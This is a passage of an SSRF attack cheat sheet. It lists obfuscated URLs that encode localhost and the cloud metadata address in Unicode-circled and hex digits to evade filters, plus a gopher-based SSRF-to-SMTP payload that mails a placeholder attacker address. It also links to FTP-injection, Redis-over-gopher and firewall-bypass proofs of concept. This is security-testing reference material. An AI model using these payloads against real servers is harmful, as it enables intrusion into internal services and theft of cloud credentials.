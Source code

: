 `http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/`

`http://⓪ⓧⓐ⑨。⓪③⑦⑥。④③⑤①⑧:80/`

`http://⓪ⓧⓐ⑨｡⑯⑥⑧⑨⑥⑥②:80/`

`http://⓪⓪②⑤①。⑯⑥⑧⑨⑥⑥②:80/`

`http://⓪⓪②⑤①｡⓪ⓧⓕⓔ｡④③⑤①⑧:80/`

***

### commonly-open-ports.txt - list of commonly open ports

***

### SSRF2SMTP

https://ssrf.localdomain.pw/ssrf2smtp/?proto=gopher&ip=0&port=25&domain=domain.com&to=email@attacker.com&code=301

***

### Schemes-List.xlsx - 800 of known schemas + useful references

https://github.com/irsdl/OutlookLeakTest/blob/master/Schemes-List.xlsx?raw=true

***

### Java/Python FTP Injections Allow for Firewall Bypass

http://webcache.googleusercontent.com/search?q=cache:http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

https://github.com/ecbftw/poc/blob/master/java-python-ftp-injection/ftp-injection-server.py

http://webcache.googleusercontent.com/search?q=cache:https://shiftordie.de/blog/2017/02/18/smtp-over-xxe/

***

### SSRF + Gopher + Redis

http://webcache.googleusercontent.com/search?q=cache:http://vinc.top/2016/11/24/%E3%80%90ssrf%E3%80%91ssrfgopher%E6%90%9E%E5%AE%9A%E5%86%85%E7%BD%91%E6%9C%AA%E6%8E%88%E6%9D%83redis/

https://webcache.googleusercontent.com/search?q=cache:http://antirez.com/news/96

***

### Top 5 features that are often prone to SSRF vulnerabilities:

https://webcache.googleusercontent.com/search?q=cache:https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF
